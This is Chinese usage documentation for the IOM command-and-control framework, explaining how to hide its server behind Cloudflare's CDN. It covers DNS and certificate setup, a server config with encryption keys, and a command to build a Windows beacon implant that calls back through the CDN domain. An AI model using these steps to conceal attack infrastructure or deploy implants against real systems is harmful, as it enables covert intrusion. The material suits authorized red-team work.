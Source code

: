# 使用Cloudflare进行CDN前置

IOM内置了HTTPS, 所以你可以使用CDN、云函数等来隐藏IOM服务

一些你必须满足的前提条件:

1. 一台具备公网IP的服务器, 用于部署/转发IOM服务端的端口
2. 一个Cloudflare账户, 用于解析域名
3. 一个域名，可以托管到Cloudflare
4. 确保你的pipline运行在80/443/8080/8443等cloudflare允许代理的端口上

## 绑定域名&IP
首先绑定一个到你公网服务器的A记录，并确保开启了代理状态，参考下图
![img_13.png](../../assets/advance/usage/domain_front/bind_host_ip.png)

## 申请cloudflare证书
需要绑定cloudflare下发的证书才能cdn的生效，申请后的证书存储到本地
![img_14.png](../../assets/advance/usage/domain_front/save_cert_key.png)

## 关闭缓存状态
![img_2.png](../../assets/advance/usage/domain_front/close_cache.png)

## 配置ssl/tls加密模式

请将ssl/tls加密模式设置为完全(请勿使用灵活)
![img_1.png](../../assets/advance/usage/domain_front/set_encrypt.png)

![img.png](../../assets/advance/usage/domain_front/set_encrypt_2.png)

## 服务器 部署&配置

上述流程完成后你需要在服务器上配置证书并启动，参考如下配置
```angular2html
  http:
  - enable: true
    encryption:
    - enable: true
      key: maliceofinternal
      type: aes
    - enable: true
      key: maliceofinternal
      type: xor
    error_page: ""
    host: 0.0.0.0
    name: http
    parser: auto
    port: 443
    tls:
      enable: true
      ca_file: cert/a.crt
      cert_file: cert/a.crt
      key_file: cert/a.key
```
然后启动server: 
![img_9.png](../../assets/advance/usage/domain_front/start_server.png)

## 编译&测试

根据上述步骤配置域名后，编译malefic上线即可
```
build beacon --profile http_default --address demo.cdn.com --target x86_64-pc-windows-gnu
```

部分日志截图参考如下:

server端:

![img_6.png](../../assets/advance/usage/domain_front/server_log.png)

Client端:

![img_8.png](../../assets/advance/usage/domain_front/client_log.png)

Malefic:

![img_10.png](../../assets/advance/usage/domain_front/malefic_log.png)
